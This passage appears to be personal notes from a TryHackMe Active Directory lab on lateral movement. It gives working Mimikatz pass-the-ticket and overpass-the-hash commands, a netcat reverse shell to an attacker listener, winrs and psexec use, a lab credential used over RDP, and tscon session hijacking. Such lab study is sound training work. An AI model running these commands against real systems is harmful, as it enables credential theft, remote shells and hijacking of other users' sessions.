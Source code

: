 - If we find desired ticket we can use it (its in the form of [0;427fcd5]-2-0-40e10000-Administrator@krbtgt-ZA.TRYHACKME.COM.kirbi)
```bash
kerberos::ptt [0;427fcd5]-2-0-40e10000-Administrator@krbtgt-ZA.TRYHACKME.COM.kirbi
```

- `OVERPASS-THE-HASH/PASS-THE-TICKET`
- We can use `mimikatz.exe` to pass the keys as well
```bash
sekurlsa::ekeys
```

- Depending on the keys we find we can use these methods
- If we have the AES256 hash:
```bash
sekurlsa::pth /user:t1_toby.beck /domain:za.tryhackme.com /aes256:8a1682a496bb4cea2685cbb3e660ddf1a7c49f8b1892870f906040ce92417f80 /run:"c:\tools\nc64.exe -e cmd.exe 10.50.65.97 5556"

# On kali
nc -lvnp 5556
```

- We can use AES256	here because the RC4 hashes are equal to NTLM hashes
- We get a shell
- Once we have a shell using all these methods we can start a command prompt on THMIIS without providing password because we already have that injected
```bash
winrs.exe -r:THMIIS.za.tryhackme.com cmd
```
---------------------------------------------------------------------------------
- Got elevated credentials from http://distributor.za.tryhackme.com/creds_t2
	t2_kelly.blake:8LXuPeNHZFFG
- Used `xfreerdp` to login
```bash
xfreerdp /u:"t2_kelly.blake" /p:'8LXuPeNHZFFG' /v:thmjmp2.za.tryhackme.com +clipboard /dynamic-resolution
```

- We can open `cmd.exe` as Administrator
- We can use `psexec64.exe` to open a `NT AUTHORITY/SYSTEM`
```bash
psexec64.exe -s cmd.exe
```

- We can use these commands to check sessions we can hijack
```bash
query user
query session
```

- The sessions with `DISC` state are hijackable
- We can hijack active sessions too but they will force the user out and that is sus
- We can use
```bash
tscon 3 /dest:rdp-tcp#52
```
